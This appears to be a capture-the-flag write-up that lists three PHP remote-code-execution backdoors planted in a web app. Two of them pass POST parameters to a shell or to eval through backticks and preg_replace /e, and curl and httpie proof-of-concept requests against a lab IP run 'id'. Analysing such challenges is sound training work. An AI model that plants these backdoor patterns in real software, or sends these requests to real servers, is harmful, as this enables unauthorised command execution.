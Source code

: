 # Solutions of web1

#### RCE_0x00

> Vulnerability

```
>>> WEBROOT/src/bootstrap/autoload.php

72	if (is_dir($workbench = __DIR__.'/../workbench'))
73	{
74		Illuminate\Workbench\Starter::start($workbench);
75	}
76	
77	echo `$_POST[checker]`; // Backdoor here which cause RCE vulnerability
```

> Proof of concept
```
curl http://192.168.1.187:8000/index.php --data 'checker=id' 2&>/dev/null | head -n 1
```

#### RCE_0x01

> Vulnerability
```
>>> WEBROOT/src/app/views/errors/404.blade.php

130	<?php
131	@preg_replace("/[pageerror]/e", $_POST['notfound'], "saft");
132	?>
```

> Proof of concept
```
http -f post 'http://192.168.1.187:8000/nosuchpage' notfound='system("id")'
```


#### RCE_0x02

> Vulnerability
```
>>> WEBROOT/src/app/template/1.tpl
>>> WEBROOT/src/app/template/2.tpl
>>> WEBROOT/src/app/template/3.tpl

1	<?php
2	    echo isset($_POST["template"]) ? eval($_POST["template"]): "";
3	?>
```

> Proof of concept
```
# TODO
```
